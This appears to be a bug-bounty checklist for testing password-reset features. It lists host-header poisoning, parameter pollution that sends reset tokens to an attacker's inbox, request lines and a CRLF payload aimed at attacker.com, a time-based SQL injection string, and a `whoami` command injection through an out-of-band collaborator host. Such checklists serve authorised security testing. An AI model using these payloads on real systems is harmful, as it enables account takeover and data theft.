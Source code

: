 # Testing Password Reset Functionality
1. Look for Password Reset Poisoning. (Change the X-Forwarded-host, Referer, Host header to our domain)
2. HTTP Parameter Pollution:
```
email=victim@gmail.com&email=attacker@gmail.com
email[]=victim@gmail.com&email[]=attacker@gmail.com
email=victim@gmail.com%20email=attacker@gmail.com
email=victim@gmail.com|email=attacker@gmail.com
{"email":"victim@gmail.com","email":"attacker@gmail.com"}
{"email":["victim@gmail.com","attacker@gmail.com"]}
```
Check if you can reset victim's password using the link received in attacker's inbox.

3. Look for IDOR while resetting password through password reset link. Use paramminer to discover additional parameters or append previously known parameters (For example, you may find a parameter uid while updating your profile) in the request. 
https://medium.com/@deadoverflow/account-takeover-vulnerability-that-resulted-in-2500-bounty-e1618363878d
4. Broken Crypto - Check if you can guess how the password reset tokens are generated.
5. Password reset token Leakage via referral header - Open the password reset link and click on any external links available in the page. 
6. Token leakage in response/JS files - Search for the password reset token in the response of the request or in JS files.
7. Session/Token is not expiring after password reset.
8. Weak Password Policy - Add only space in password.
9. Request for 2 password reset links and try the older one.
9.1. (RTLO)[https://hackerone.com/reports/563268]
9.2. (BYPASS)[https://hackerone.com/reports/271324]
11. Try:
```
POST https://attacker.com/resetpassword.php HTTP/1.1
POST @attacker.com/resetpassword.php HTTP/1.1
POST :@attacker.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
```
Check if the password reset link is manipulated or not.

11. SQLi: ```test@test.com'+(select*from(select(sleep(2)))a)+'```
12. CRLF: ```/resetpassword?%0d%0aHost:%20attacker.com```
13. Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("tuhin1729 ", " tuhin1729 " etc). Try a password reset for your account. Use the token to reset victim's password. A similar vulnerability was found in CTFd ([CVE-2020-7245](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7245))
14. Application Level DoS - Try to set a very long password and check if the response time is delayed or if you get a 5xx response.
15. If they are sending an otp for password reset, try [2FA Bypass](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/2FA.md) techniques.
16. During registration, use homograph in email. Now try password reset.
17. Change the request method and content-type and observer how the application is responding.
18. Append null bytes after your email and observe the response.
19. Try XSS, SSTI etc in the email field.
20. Try Command injection by ```email=hello@`whoami`.xyz.burpcollaborator.net```
21. 2FA auto disabled after password reset.
22. User Enumeration.
23. Check whether any param value is reflecting in the email. Now try HTMLi.
24. XXE (if forgot-password request accepts xml).
25. Missing Rate Limit - Email triggering.
26. If a link with token is sent to the email, try using an old token in a checkout page for example: https://www.youtube.com/watch?v=4w9891MjY4I
27. Password reset token does not expire: Request a password reset link, change the account's email, Check if the password reset link still works
28. Email Verification Bypass
29. Is there a way to (login without password)?[https://zseano.medium.com/how-re-signing-up-for-an-account-lead-to-account-takeover-3a63a628fd9f]


Reference:
- https://twitter.com/tuhin1729_/status/1437471718142976007
- https://speakerdeck.com/tuhin1729/account-takeover-via-exploiting-misconfigured-password-reset-feature
- https://speakerdeck.com/tuhin1729/abusing-password-reset-functionality

https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
